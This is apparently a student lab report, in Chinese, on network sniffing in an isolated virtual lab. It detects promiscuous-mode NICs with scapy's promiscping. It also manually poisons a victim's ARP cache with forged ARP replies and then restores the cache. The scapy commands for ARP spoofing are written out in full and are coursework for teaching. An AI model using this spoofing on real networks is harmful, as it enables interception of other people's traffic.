









#   第四章 网络监听实验

## 实验环境

**网络拓扑**


**如图所示网络中的节点基本信息如下：**


|        角色         | **Ip地址**       | **网卡/物理地址**            |
| :---------------------: | ---------------- | ---------------------------- |
|     **网关Debain**      | `172.16.111.1`   | `08:00:27:4e:a1:a2`/`enp0s9` |
| **攻击者Attacker-Kali** | `172.16.111.111`      | `08:00:27:0e:34:8d`/`eth0`   |
|  **受害者Victim-Kali**  | `172.16.111.123` | `08:00:27:17:0b:c2`/`eth0`   |


## 实验准备

提前在攻击者主机Kali上安装好 `scapy`
```c
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```


## 实验详情
### 实验一：检测局域网中的异常终端

**1. 实验拓扑：**

本次实验只涉及到攻击者和网关

**2. 实验目的：**

通过 `scapy` 构造数据包，用来达到探测局域网中是否存在开放混杂模式的网卡的目的

**3. 知识点：**

1. 混杂模式

- 摘自课件：

  > 以太网卡的工作模式有两种：正常模式和混杂模式。在正常模式下，只接收目的 MAC 地址的自己的数据包，其他将一律丢弃；而在混杂模式下，网卡并不检查目的 MAC 地址，对所有的数据包都来者不拒。

2. `scapy` 的 promiscping 函数: 

- **为查看混杂模式主机而发送ARP请求**

  > Send ARP who-has requests to determine which hosts are in promiscuous mode

**4. 实验步骤：**

```c
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eth0
```
如图



```c
# 在攻击者主机上开启 scapy ,需要sudo 
sudo scapy

# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.111.123")
```




```c
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set eth0 promisc on
 
# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth0
```




```c
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("172.16.111.123")
```




```c
# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set enp0s3 promisc off
```

**5. 实验总结：**
通过实验并结合知识点我们可以知道在混杂模式下，受害者主机接收所有经过网卡(eth0)的数据包，包括不是发给它本机的包。

### 实验二：手工单步“毒化”目标主机的ARP缓存

以下代码在攻击者主机上的scapy交互式终端完成

```c
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
```




```c
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
```




```c
# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 172.16.111.123
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed = Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.123", hwdst="08:00:27:0e:34:8d")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```




此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

```c
ip neigh
```


回到攻击者主机上的 scapy 交互式终端继续执行命令。

```c
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = Ether()/ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:4e:a1:a2", pdst="172.16.111.123", hwdst="08:00:27:17:0b:c2")
sendp(restorepkt1, count=100, inter=0.2)
```




此时在受害者主机上准备“刷新”网关 ARP 记录。

```c
## 在受害者主机上尝试 ping 网关
ping 172.16.111.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```




## 遇到的问题与解决办法

 1.  
- 问题：`scapy` 执行 `pkt = promiscping("172.16.111.123")` 时被禁止
- 解决办法：**使用root权限**执行 `scpay`
2. 
- 问题：arpspoof: libnet_open_link(): UID/EUID 0 or cap

- 解决方法： 在命令前面加上sudo即可

## 参考资料

- [仓库课件](https://c4pr1c3.gitee.io/cuc-ns/chap0x04/exp.html)
- [kali-linux configures nat mode to connect to the network](https://blog.csdn.net/Ahuuua/article/details/108575907)